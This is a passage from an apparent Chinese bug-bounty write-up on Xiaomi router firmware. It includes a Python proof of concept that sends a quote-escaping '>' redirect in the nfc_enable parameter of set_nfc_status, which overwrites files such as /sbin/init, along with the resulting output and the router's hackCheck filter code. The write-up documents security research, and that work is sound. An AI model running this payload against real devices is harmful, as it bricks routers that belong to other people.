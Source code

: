 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/LFPriaSjBUZJAW1p8udCPmQH0aEJ9iaLhxscWQUZ5CEvpaE23FX3fvrqcBxpdjPokgRgbZ6UvoZnpiciaXxK8TIuRg/640?wx_fmt=png&from=appmsg "")  
  
是的确实可行, 但当我再次仿真环境, 进行测试时却依然失败了, 研究一下, 发现设备使用的lua是5.1.5  
版本的, 这个版本的tostring  
并没处理转义字符的能力  
  
气!!接连得失败这次挖洞之旅就这么结束了么!!!!  
  
既然命令注入没得法了, 但拒绝服务还是可以做到的  
  
前面提到setNfcStatus  
中执行命令时没有检查'  
闭合, 在不能使用命令分割符的情况下, 还有一个特殊字符>  
, 重定向符!!  
  
提前闭合''  
后, 插入>  
符号, 将命令的输出重定向到任意指定路径, 覆盖可执行文件和脚本, 进行设备破坏  
  
例如/usr/lib/lua/luci/dispatcher.lua  
, /sbin/init  
等  
  
写个验证脚本  
```
import requestspath = "/usr/lib/lua/luci/dispatcher.lua"#path = "/sbin/init"token = "960426559944fb61fc96e9039853d36a"requests.get("http://192.168.0.8/cgi-bin/luci/;stok={}/api/xqnetwork/set_nfc_status?nfc_enable='>%20{}%20'".format(token,path))
```  
  
攻击后结果  
```
$cat /usr/lib/lua/luci/dispatcher.lua{ "method": "common_set", "payload": "{ \"action\": \"{\\\"cmd\\\":\\\"sync_nfc\\\",\\\"nfc_enable\\\":\\\"\" }" }$cat /sbin/init{ "method": "common_set", "payload": "{ \"action\": \"{\\\"cmd\\\":\\\"sync_nfc\\\",\\\"nfc_enable\\\":\\\"\" }" }
```  
  
这个漏洞只是在/usr/lib/lua/luci/controller/api  
目录下扫到的, 还有大量的处理代码位于/usr/lib/lua/xiaoqiang  
  
/usr/lib/lua/xiaoqiang  
中同样按照上面的提到的由危险函数出发, 但麻烦一点, 还要判断有漏洞的函数是否会被/usr/lib/lua/luci/controller/api  
中的接口调用  
  
扫一遍, 又发现了数个类似的漏洞, 虽然这几个漏洞没啥实际应用意义, 但某米给出了0.5k-1k  
的单个价格, 且活动期间*2.5  
, 如果有还是还是挺爽的  
### 尝试三  
  
难道这么辛苦挖一番, 最后连个命令注入都捞不到吗!!!到也不一定  
  
之前观察formvalue  
时提到其会调用hackcheck  
函数进行危险字符过滤  
  
再观察这个函数  
```
-- 敏感字段安全检查函数functionhackCheck(fieldName, fieldValue)    -- 如果字段名或字段值为空，直接返回原始值    ifnot fieldName ornot fieldValue then        return fieldValue    end    -- 如果是敏感字段，不进行检查直接放行（可能由其他机制处理）    if SENSITIVE_FIELDS[fieldName] then        return fieldValue    end    -- 检查字段值是否包含危险字符    ifstring.find(fieldValue, DANGEROUS_CHARS) then        _UPVALUE2_.log(3, "hackCheck match key:", fieldName, " val:", fieldValue)        returnnil-- 包含危险字符，返回nil表示过滤该值    end    -- 不包含危险字符，返回原始值    return fieldValueend
```  
  